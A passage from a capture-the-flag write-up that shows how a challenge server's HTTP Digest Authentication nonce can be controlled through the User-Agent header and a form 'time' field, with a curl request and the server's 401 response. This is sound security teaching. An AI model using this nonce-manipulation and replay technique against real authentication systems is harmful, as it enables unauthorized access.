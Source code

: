 
Basically, when a client tries to request a resource which is protected by Digest Authentication, the following sequence happens:
1. Client requests resource
2. Server responds with error code 401 ("Unauthorized") and a `WWW-Authenticate` HTTP header, which contains a nonce (among other things)
3. Client calculates `response` (as explained above) and returns it in `Authorization` HTTP header (among other things)
4. Server checks response and decides whether to allow access to resource


A nonce is supposed to be "an arbitrary number that can be used **just once** in a cryptographic communication". However, we know how the nonce is calculated from inspecting `serverSideJS.js`. It takes the user agent string up to the first space, and appends the `time` parameter to it. This means that by modifying the `time` input value from the HTML form, and sending a custom User Agent via the HTTP headers, we can control the nonce. 

Which values should we use? The ones from the log we found!

We start by making a simple request for `/main_page`:
```console
root@kali:/media/sf_CTFs/433/login# curl -v -d "time=23:59" -A "Atomz/1.0" POST http://cyberlahavctf2019.com/main_page
* Rebuilt URL to: POST/
* Could not resolve host: POST
* Closing connection 0
curl: (6) Could not resolve host: POST
*   Trying 207.154.239.211...
* TCP_NODELAY set
* Connected to cyberlahavctf2019.com (207.154.239.211) port 80 (#1)
> POST /main_page HTTP/1.1
> Host: cyberlahavctf2019.com
> User-Agent: Atomz/1.0
> Accept: */*
> Content-Length: 10
> Content-Type: application/x-www-form-urlencoded
>
* upload completely sent off: 10 out of 10 bytes
< HTTP/1.1 401 Unauthorized
< X-Powered-By: Express
< WWW-Authenticate: Digest realm=National_Cyber_Unit ,nonce="5af65be00c55a2181ce76eb95b43fc3be98d54a1",opaque=""
< Date: Tue, 29 Jan 2019 19:36:46 GMT
< Connection: keep-alive
< Transfer-Encoding: chunked
<
<!DOCTYPE html>
<html lang="en" >

<head>
  <meta charset="UTF-8">
  <title>The Forbidden Site</title>

      <link rel="stylesheet" href="css/style.css">

</head>

<body>

        <form class="login-form" action="/main_page" method="post">
                <script src="1.js"></script>
                <script src="serverSideJS.js"></script>
                <p class="login-text"> </p>
                <input type="hidden" id="time" name="time" value=""/>
                <script>
                        document.getElementById("time").value = get_current_time();
```